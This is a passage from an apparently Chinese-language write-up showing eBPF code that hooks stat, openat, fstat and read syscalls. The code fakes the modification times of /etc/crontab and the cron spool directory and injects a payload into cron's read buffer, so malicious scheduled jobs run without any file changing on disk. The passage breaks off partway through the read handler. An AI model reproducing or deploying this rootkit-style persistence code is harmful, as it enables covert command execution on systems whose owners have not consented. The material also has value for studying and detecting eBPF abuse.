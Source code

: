 


首先判断读取的文件是否为 `/etc/crontab` 或者 `crontabs` ，这些路径是 cron 用于判断相关配置文件是否被修改了的路径，随后会保存 pid、filename、用于接受文件信息的用户态 buf 指针到全局变量里。

处理 stat 系统调用返回的代码：

```js
static __inline int handle_stat()
{
    if (statbuf_ptr == 0)
        return 0;
    bpf_printk("cron %d stat %s\n", cron_pid, filename_saved);
    // conditions:
    // 1. !TEQUAL(old_db->mtim, TMAX(statbuf.st_mtim, syscron_stat.st_mtim))
    // 2. !TEQUAL(syscron_stat.st_mtim, ts_zero)
    __kernel_ulong_t spool_st_mtime = 0;
    __kernel_ulong_t crontab_st_mtime = bpf_get_prandom_u32() % 0xfffff;
    if (!memcmp(filename_saved, SPOOL_DIR, sizeof(SPOOL_DIR)))
    {
        bpf_probe_write_user(&statbuf_ptr->st_mtime, &spool_st_mtime, sizeof(spool_st_mtime));
    }
    if (!memcmp(filename_saved, CRONTAB, sizeof(CRONTAB)))
    {
        bpf_probe_write_user(&statbuf_ptr->st_mtime, &crontab_st_mtime, sizeof(crontab_st_mtime));
    }
    print_stat_result(statbuf_ptr);
    statbuf_ptr = 0;
}
```



在 stat 返回时，我们需要让上节提到的两个条件均通过，同时为了保证在 eBPF 程序 detach 后， `cron` 可以立刻更新为正常的配置，这里将 `SPOOL_DIR` 的 `mtime` 设为 0， `CRONTAB` 设为一个随机的较小数值，这样 `cron` 记录的上一次修改时间就会是这个较小的时间，在下一次循环时会马上更新成原来的配置。

修改 `fstat` 返回的代码与 `stat` 大同小异，只是需要我们先 hook `openat` 的返回处并保存打开的文件描述符的值：

```js
static __inline void handle_openat(struct bpf_raw_tracepoint_args *ctx)
{
    if (!memcmp(openat_filename_saved, CRONTAB, sizeof(CRONTAB)))
    {
        open_fd = ctx->args[1];
        bpf_printk("openat: %s, %d\n", openat_filename_saved, open_fd);
        openat_filename_saved[0] = '\0';
    }
}
```



然后当 `fstat` 获取该文件的信息时修改返回值即可。

最后就是在读取文件信息的时候修改处于进程内存里的返回数据，即 hook `read` 系统调用返回的时候：

```js
static __inline void handle_read(struct bpf_raw_tracepoint_args *ctx)
{
    if (read_buf == 0)
        return;
    ssize_t ret = ctx->args[1];
    if (ret <= 0)
    {
        read_buf = 0;
        return;
    }
    if (ret < sizeof(PAYLOAD))
    {
        bpf_printk("PAYLOAD too long\n");
```